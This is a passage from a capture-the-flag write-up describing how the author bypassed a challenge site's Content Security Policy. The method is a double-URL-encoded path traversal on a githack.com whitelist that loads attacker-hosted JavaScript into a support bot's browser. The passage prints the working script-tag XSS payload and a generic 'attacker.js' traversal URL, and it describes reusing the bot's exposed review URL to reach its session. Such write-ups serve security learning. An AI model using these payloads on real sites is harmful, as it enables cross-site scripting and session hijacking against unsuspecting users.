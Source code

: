 ````
I quickly tested to see how the Githack server would handle this style of request and it turns out to happily parse our URL encoded path, follow the traversal, and give us our target page!  This means we can finally bypass the CSP policy on this website by hosting our own Javascript on Github and then using a path traversal to reference that script.  Note that githack.com is basically just a proxy service for Github, so having our own content hosted on that domain is as simple as making a new Github repository.

To reference the Github hosted script on the support page I used the following for the message contents:

```
<script src="https://raw.githack.com/mattboldt/typed.js/master/lib/..%252f..%252f..%252f..%252fw--/a/master/csp-done19.js"></script>
```

Note that our %2f path is URL encoded twice - once for the original `/support` page to decode, and once to bypass the CSP policy on the support team bot's browser.  A hint / Easter egg at this point is that any time you include a script tag in your message to the support chat the response is:

```
Wow, that's cosmic.
```

I'm not sure if a <script> tag is truely cosmic brain, but it's on the right path :)  

Triggering this message to be reviewed by the support team bot finally resulted in a successful XSS attack!  Unfortunately I ended up being stuck here for a couple hours due to instability on the challenge server, and a couple bugs in my Javascript.  The challenge server would restart hourly (at 35 minutes past the hour), but between the restarts it would sometimes end up in bad states.  One of these was the state where the `/support/feedback` API wouldn't actually trigger the support chat being loaded by the support team bot.  This was simple enough to debug, but ultimately took a while.

With full XSS access I started to look into how we could leverage the support team bot's session.  Unfortunately session cookies were set to `httponly` so only the `csrf` token could be retrieved from the cookies.  After spending some time looking at the page details that was loaded on the support bot browser I eventually looked up the `window.location` value.  This showed that the URL the support bot was accessing the chat log from was:

```
http://localhost:3000/support/review/417e9e5a4793077f7070b9d214e7db44839f89dcdcee6e5c0616ae4c212d22bb 
```

Rather than attempting to make requests to this via `XMLHttpRequest's`, I tried the following URL in my browser:

```
https://h1-415.h1ctf.com/support/review/417e9e5a4793077f7070b9d214e7db44839f89dcdcee6e5c0616ae4c212d22bb 
```

...and it worked!  Our support chat session is loaded, along with some additional user details.
{F692380}

## Second vulnerability - Part 2 - TLDR

1) A CSP is blocking all script execution.
2) The `script-src` rule allows scripts from `https://raw.githack.com/mattboldt/typed.js/master/lib/`.
3) We can abuse the allowed path by URL encoding our script path.  Use `%2f` instead of `/` to perform a directory traversal server-side, but trick Chrome into thinking we are still referencing a valid path.  For example: `https://raw.githack.com/mattboldt/typed.js/master/lib/..%2f..%2f..%2f..%2fmyuser/myproject/master/attacker.js`.
````